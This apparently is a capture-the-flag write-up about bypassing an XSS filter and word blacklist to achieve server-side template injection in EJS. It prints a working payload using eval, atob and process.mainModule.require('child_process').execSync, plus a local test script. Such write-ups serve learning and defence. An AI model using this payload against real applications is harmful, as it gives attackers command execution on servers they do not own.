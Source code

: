 ## Free SSTI

### Bypassing the filters
Turns out a simple `ejs` payload such as this will pass the xss filter, like, to me it was as if it was not there, not once did it trigger.

```js
xssFilter.filter(msg.text);
```

```js
<%= 1+1 %>
```

And the blacklist doesn't even contain `eval` and `atob`, so we can run any code with the combo.

```js
eval(atob("..."))
```

The web worker (I suspect it is a web worker or a second module or something) environment doesn't have `require`, but we can bypass it quite easily with `process.mainModule.require`.

We can test our payload locally like this.

```js
const ejs = require("ejs");
var XSSFilter = require("xssfilter");
var xssFilter = new XSSFilter();
const forbidden = require("./data/bad_words.json");

// was trying to bypass with string concats but realized eval isnt even blocked
const payload = `<%=eval(atob('B64'))%>`.replace(
  "B64",
  btoa(`process.mainModule.require('child_process').execSync("ls")`)
);
console.log("Payload:", payload);
let userMsg = xssFilter.filter(payload);
console.log("Filtered Payload:", userMsg);
for (const term of forbidden) {
  if (userMsg.includes(term)) {
    console.log("Payload contains forbidden term:", term);
  }
}
const result = ejs.render(payload, {}, (err, str) => {
  if (err) {
    console.log("Template rendering failed:", err.message);
  } else {
    console.log("Template rendered successfully:", str);
  }
});

console.log(result);
```
